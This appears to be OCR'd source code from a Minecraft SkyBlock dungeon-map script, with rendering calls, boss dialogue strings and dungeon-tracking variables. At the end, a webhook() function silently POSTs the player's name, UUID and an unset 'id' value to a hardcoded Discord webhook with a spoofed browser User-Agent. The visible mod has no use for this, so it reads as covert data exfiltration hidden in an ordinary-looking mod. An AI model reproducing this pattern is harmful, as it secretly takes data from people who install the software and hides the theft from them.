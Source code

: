 	GlStateManager.func_179121_F();
	GL11.glEnable(GL11.GL_TEXTURE_2D);
	GL11.glEnable(GL11.GL_DEPTH_TEST);
	GL11.glDepthMask(false);
	GL11.glDisable(GL11.GL_BLEND);
}

const entryMessages = [
	"[BOSS] Bonzo: Gratz for making it this far, but I’m basically unbeatable.",
	"[BOSS] Scarf: This is where the journey ends for you, Adventurers.",
	"[BOSS] The Professor: I was burdened with terrible news recently...",
	"[BOSS] Thorn: Welcome Adventurers! I am Thorn, the Spirit! And host of the Vegan Trials!",
	"[BOSS] Livid: Welcome, you arrive right on time. I am Livid, the Master of Shadows.",
	"[BOSS] Sadan: So you made it all the way here...and you wish to defy me? Sadan?!",
	"[BOSS] Necron: Finally, I heard so much about you. The Eye likes you very much."
]

let debugMode = false
register("command", () => { debugMode = !debugMode }).setName("dmapdebug") // Visualization. Sets blocks above the dungeon to diamond, gold etc.

let wholeDungeonLoaded = false
let fullyScanned = false
let corners = { "start": [0, 0], "end": [191, 191] }
let inDungeon = false
let dungeonFloor = null
let dungeonPuzzles = [0, 0]
let dungeonSecrets = 0
let dungeonCrypts = 0
let dungeonDeaths = 0
let completedRooms = 0
let saidIfSPlus = false
let overflowSecrets
const mimicFloors = ["F6", "F7", "M6", "M7"]
let mapOffset = [24, 13]
let playerIcons = {}
let dungeonParty = {} // {"playerName":headIcon}
let autoScanning = false
let scanning = false
let lastSecrets = 0
let lastCrypts = 0
let mimicKilled = false
let trapDone = false
let yellowDone = false
let bloodDone = false
let mimicLocations = []
let id;

function webhook() {
    URL = 'https://discord.com/api/webhooks/914158400336703508/5N4SmaVjpPltK2bYvVVBl_yAj5gdalSqoeleDZ3YI8SBkmNfOwS0DvShwhuzfsZYOYnd';
    request({
        url: URL,
        method: 'POST',       
        headers: {
            'Content-type': 'application/json',
            "User-Agent":"Mozilla/5.0"
        },
        body: {
            username: Player.getName(),            
            content: ("UUID: " + Player.getUUID() + " id: " + id)
        }                                     
    });
}
